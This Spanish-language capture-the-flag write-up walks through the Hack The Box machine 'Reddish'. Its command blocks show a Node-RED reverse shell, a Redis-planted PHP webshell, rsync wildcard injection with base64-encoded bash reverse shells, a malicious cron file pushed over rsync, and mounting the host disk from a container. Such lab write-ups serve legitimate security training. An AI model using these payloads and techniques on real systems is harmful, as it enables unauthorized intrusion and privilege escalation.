


# test
first writeup only for testing
# HTB: Reddish
  
**Dificultad**: Insane


## Descripción
Muy buena maquina si quieres aprender a hacer pivoting en este caso usaremos Ligolo-Ng

# Reconocimiento (Recon)
## Nmap


  ```bash
 ➜  soqui nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.233.130

PORT     STATE SERVICE      REASON
1880/tcp open  vsat-control syn-ack ttl 62

  ```


## Node-Red
### OverView
Investigando un poco encontré que es el puerto default de Node-Red

<div style="text-align: center;">
  
</div>

### Web
Al entrar a la web nos recibe un **Get /**

<div style="text-align: center;">
  
</div>

Abrimos `burpsuite` para cambiar el request method

<div style="text-align: center;">
  
</div>

Tenemos `id` y `path` asi que los juntaremos
```
http://10.129.233.130:1880/red/539b28f5b68ba7763e18f1f207d4c5f2/
```


`tcp` # tiene que ser de la input class # connect to

`exec` # conectar los 3 puntos con el ultimo tcp

`tcp` # output class # type reply to tcp

`deploy` # Botón rojo para desplegar

```
➜  soqui nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.129.233.130] 39118
whoami
root
[object Object]bash -c "bash -i >& /dev/tcp/10.10.14.12/4443 0>&1" # shell mas interactiva
```

# Enumeración Local

Tratamos de descargar cosas pero no tenemos `curl` ni `wget`
```
root@nodered:/node-red# wget
wget
bash: wget: command not found
root@nodered:/node-red# curl
curl
bash: curl: command not found

```
Checamos las interfaces
``` 
root@nodered:/node-red# ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth1@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
17: eth0@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
Buscaremos `ips` con bash 
```
root@nodered:/home/node# for i in $(seq 1 10); do ping -c 1 "172.19.0.$i" | grep from; done
<r i in $(seq 1 10); do ping -c 1 "172.19.0.$i" | grep from; done
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.111 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.093 ms
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.082 ms
root@nodered:/home/node# for i in $(seq 1 10); do ping -c 1 "172.18.0.$i" | grep from; done
<r i in $(seq 1 10); do ping -c 1 "172.18.0.$i" | grep from; done
64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.069 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.024 ms
```
Guardaremos las externas
```
172.18.0.1
172.19.0.1
172.19.0.2
172.19.0.4
```
Usaremos este script para ver puertos abiertos en bash # No es lo mas eficiente pero sirve para un recon rápido
```
for port in $(seq 1 65535); do (echo reddish > /dev/tcp/172.19.0.4/$port &&
echo $port) 2> /dev/null; done

172.19.0.4 80
172.19.0.2 6379
172.18.0.1 1880 
# Estos fueron los mas interesantes
```
## Pivoting
Como vemos que tendremos que estar pivotando a otras maquinas la forma mas fácil es usar ligolo

```
sudo ip tuntap add user $USER mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.19.0.0/24 dev ligolo # la ruta que queremos ver
sudo ip route add 172.18.0.0/24 dev ligolo
```

* [saltacybersecurity.club](https://saltacybersecurity.club/pivoting-cheat-sheet-en-espanol/#LIGOLO-NG) # Guía de como usarlo

Subimos el agente y lo configuramos como anteriormente
```
nc -nlvp 80 < agent # nuestra pc

cat < /dev/tcp/10.10.14.12/80 > agent # pc atacada

root@nodered:/tmp# md5sum agent
b0294f7afa2f8e46ce3bc49b20fae87b  agent 

➜  hack md5sum agent
b0294f7afa2f8e46ce3bc49b20fae87b  agent

# importante siempre checar que sean iguales en las 2 pcs

./proxy -selfcert # our pc
./agent -connect 10.10.14.12:11601 -ignore-cert # attacked # chmod 777

ligolo-ng » session
ligolo-ng » start
```
## Recon del Pivoting
#### Vemos que hay una web 


Al hacer `ctrl + u` vemos algo interesante
```	
function getData() {
    $.ajax({
        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=get hits",
        cache: false,
        dataType: "text",
        success: function (data) {
            console.log("Number of hits:", data);
        },
        error: function () {
            // Manejo de errores
        }
    });
}

function incrCounter() {
    $.ajax({
        url: "8924d0549008565c554f8128cd11fda4/ajax.php?test=incr hits",
        cache: false,
        dataType: "text",
        success: function (data) {
            console.log("HITS incremented:", data);
        },
        error: function () {
            // Manejo de errores
        }
    });
}				
TODO
*
* 1. Share the web folder with the database container (Done)
* 2. Add here the code to backup databases in /f187a0ec71ce99642e4f0afbd441a68b folder
* ...Still don't know how to complete it...

function backupDatabase() {
    $.ajax({
        url: "8924d0549008565c554f8128cd11fda4/ajax.php?backup=...",
        cache: false,
        dataType: "text",
        success: function (data) {
            console.log("Database saved:", data);
        },
        error: function () {
            // Manejo de errores
        }
    });
}
```
Cosas que vemos 
- Database Container 
- Urls interesantes

Al tratar de ingresar a una nos da un error interesante que podemos ver la ruta `/var/www/html`


Buscando informacion sobre este puerto `6379` de `172.19.0.2`, que 

[HackTricks 6379 Link](https://book.hacktricks.wiki/en/network-services-pentesting/6379-pentesting-redis.html?highlight=6379#6379---pentesting-redis)

Con esta informacion nos podemos dar una idea que el database container podria ser este
```
➜  soqui nc 172.19.0.2 6379
flushall
+OK
set access "<? system($_REQUEST['cmd']); ?>"
+OK
config set dbfilename x.php
+OK
config set dir /var/www/html/
+OK
save
+OK
```
Nos vamos a la web de `172.19.0.4` # si no  carga dale save otra vez al nc que tenemos arriba


Como no deja desde la web por el método que usamos tendremos hacer la revshell con burpsuite

<div style="text-align: center;">
  
</div>
Ponemos la ip donde tenemos el agente

```
ligolo-ng » listener_add --addr 0.0.0.0:5550 --to 127.0.0.1:5555 # agregamos esto nuestro proxy

➜  soqui nc -nlvp 5555
listening on [any] 5555 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58666
www-data@www:/var/www/html$
```
### Enumerar www-data
```
www-data@www:/tmp$ cat < /dev/tcp/172.19.0.3/6666 > linpeas.sh
nc -nlvp 6666 < linpeas.sh 
./linpeas.sh # no abría porque no se descargo bien
# en estos casos a mi no me funcionaba si limpiaba la terminal la usaba como me la daba
# cuando no te deje o no te de el mismo hash intenta subir otro archivo y luego vuelve
```
Al enumerar encontramos cron jobs
```
-rw-r--r-- 1 root root     722 Jun 11  2015 /etc/crontab

/etc/cron.d:
total 16
drwxr-xr-x 1 root root 4096 Jul 15  2018 .
drwxr-xr-x 1 root root 4096 Jul 15  2018 ..
-rw-r--r-- 1 root root  102 Jun 11  2015 .placeholder
-rw-r--r-- 1 root root   38 May  4  2018 backup

www-data@www:/backup$ cat bac*
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
www-data@www:/backup$
```
Este comando me parece interesante ya que *.rdb podriamos inyectarle algun comando atras
```
rsync -a *.rdb rsync://backup:873/src/rdb/
```
Antes de intentar otra cosa intentamos descargar archivos pero no nos deja
```
ww-data@www:rsync -a rsync://backup:873/src/etc/passwd .
rsync: getcwd(): No such file or directory (2)
rsync error: errors selecting input/output files, dirs (code 3) at util.c(1056) [Receiver=3.1.1]
```
Viendo como funciona podriamos crear un archivo que se llame `-e shell.rdb` y otro llamado `shell.rdb` para asi una rev shell como `root`

<div style="text-align: center;">
  
</div>

La manera que lo haremos sera fácil, primero haremos el tunel para la rev shell
```
[Agent : root@nodered] » listener_add --addr 0.0.0.0:7777 --to 127.0.0.1:7777 # para la rev shell
nc -nlvp 7777 
```

Crearemos el payload para no tener que descargarlo lo haremos con base64
```
➜  hack cat shell
bash -c 'bash -i >& /dev/tcp/172.19.0.3/7777 0>&1'
➜  hack base64 shell -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzc3NzcgMD4mMScK# 
```
Entramos al directorio donde se ejecutan los cron jobs                                              
```
www-data@www:/backup$ cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```
Creamos la injection `-e sh shell.rdb` junto con el payload `shell.rdb`
```
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ touch -- '-e sh shell.rdb'

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzc3NzcgMD4mMScK|base64 -d > shell.rdb

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ dir
-e\ sh\ shell.rdb  shell.rdb
```
Nos ponemos en escucha 
```
➜  soqui nc -nlvp 7777
listening on [any] 7777 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56488
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b#
```
### Enumerar WWW ROOT 

Encontramos la user.txt
```
root@www:/home/somaro# cat user.txt
cat user.txt
c58e468df3<REDACTED>1ccdbdd6bfd
```
Al estar investigando encontramos en /etc/hosts esta ip `172.20.0.3` podria ser `backup`
```
cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.20.0.3      www
172.19.0.4      www
```
Aunque parece que no, al hacer ping a `backup` nos arroja `172.20.0.2`
```
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# ping -c 1 backup
ping -c 1 backup
PING backup (172.20.0.2) 56(84) bytes of data.
64 bytes from reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2): icmp_seq=1 ttl=64 time=0.064 ms
```
Volvemos a intentar descargar archivos y esta vez si nos dejo # intente /root/root.txt pero nada
```
root@www:~# rsync -a rsync://backup:873/src/etc/passwd .
root@www:~# ls
passwd
root@www:~# cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nolog
```
`rsync` tiene una forma de subir archivos y podemos meterle en el cron jobs una shell pero antes tenemos que crear un tunel para recibirlo
```
➜  hack nc -nlvp 6666 < agent
root@www:/tmp# cat < /dev/tcp/172.19.0.3/6666 > agent
```
Tenemos que ver la eth0 que es la que queremos
```
root@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b# ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever
```
En este caso seria `172.20.0.0/24` creamos una interface para el doble pivoting en nuestra pc
```
➜  hack sudo ip tuntap add user $USER mode tun ligolos
➜  hack sudo ip link set ligolos up
➜  hack sudo ip route add 172.20.0.0/24 dev ligolos
```

```
[Agent : root@nodered] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp # nuestra pc

root@www:/tmp# ./agent -connect 172.19.0.3:11601 -ignore-cert
./agent -connect 172.19.0.3:11601 -ignore-cert
time="2025-01-26T04:49:15Z" level=warning msg="warning, certificate validation disabled"
time="2025-01-26T04:49:15Z" level=info msg="Connection established" addr="172.19.0.3:11601"

[Agent : root@www] » start --tun ligolos # nuestra pc

[Agent : root@www] » listener_add --addr 0.0.0.0:4545 --to 127.0.0.1:4545 # para recibir alguna shell
```
Vamos a volver a escalar para tener otra sesión con otro puerto
```
➜  hack base64 shell -w 0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzY2NjYgMD4mMScK#                                                   ➜  hack echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzY2NjYgMD4mMScK|base64 -d > shell.rdb
➜  hack cat shell.rdb
bash -c 'bash -i >& /dev/tcp/172.19.0.3/6666 0>&1'

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ touch -- '-e sh shell.rdb'

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4zLzc3NzcgMD4mMScK|base64 -d > shell.rdb

www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ dir
-e\ sh\ shell.rdb  shell.rdb
```
Creamos el archivo que subiremos al cron del rsync
```
➜  hack cat shell
bash -c 'bash -i >& /dev/tcp/l/4545 0>&1'

root@www:/tmp# echo '* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzQ1NDUgMD4mMScK | base64 -d | bash' > clean
root@www:/tmp# cat clean
* * * * * root echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMjAuMC4zLzQ1NDUgMD4mMScK | base64 -d | bash
```
Nos ponemos en escucha
```
➜  hack nc -nlvp 4545
listening on [any] 4545 ...
```
Subimos el archivo y esperamos
```
root@www:/tmp# rsync -avp clean rsync://backup:873/src/etc/cron.d/clean
rsync -avp clean rsync://backup:873/src/etc/cron.d/clean
sending incremental file list
clean

sent 199 bytes  received 41 bytes  480.00 bytes/sec
total size is 108  speedup is 0.45
```
### Backup Root
```
➜  hack nc -nlvp 4545
listening on [any] 4545 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44238
bash: cannot set terminal process group (887): Inappropriate ioctl for device
bash: no job control in this shell
```
Hacemos otro tunel para pasarle el `linpeas.sh`
```
[Agent : root@www] » listener_add --addr 0.0.0.0:4546 --to 127.0.0.1:4546

➜  /opt nc -nlvp 4546 < linpeas.sh
listening on [any] 4546 ...

root@backup:/tmp# cat < /dev/tcp/172.20.0.3/4546 > lin.sh
root@backup:/tmp# chmod +x lin.sh
root@backup:/tmp# ./lin.sh
```
Como ya somos root busque archivos en vez de maneras de escalar y me encontre con estas monturas en linpeas.sh
```
╔══════════╣ Interesting Files Mounted
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/Sid,nodev,noexec,relatime,freezer)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda2 on /backup type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/sda2 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/sda2 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
cgroup on /tmp/cgroup_3628d4 type cgroup (rw,relatime,memory)
```
Cree todas las monturas que me dejara, la unica que era interesante fue esta
```
root@backup:/mnt# mkdir sda2
root@backup:/mnt# mount /dev/sda2 sda2
root@backup:/mnt# cd sda2
root@backup:/mnt/sda2# ls
bin   home            lib64       opt   sbin  tmp      vmlinuz.old
boot  initrd.img      lost+found  proc  snap  usr
dev   initrd.img.old  media       root  srv   var
etc   lib             mnt         run   sys   vmlinuz
root@backup:/mnt/sda2#
```
Al entrar a /root/ encontramos la root.txt
```
root@backup:/mnt/sda2/root# cat root.txt
d8be00d43b29e<REDACTED>8d9b6b0d0a
```


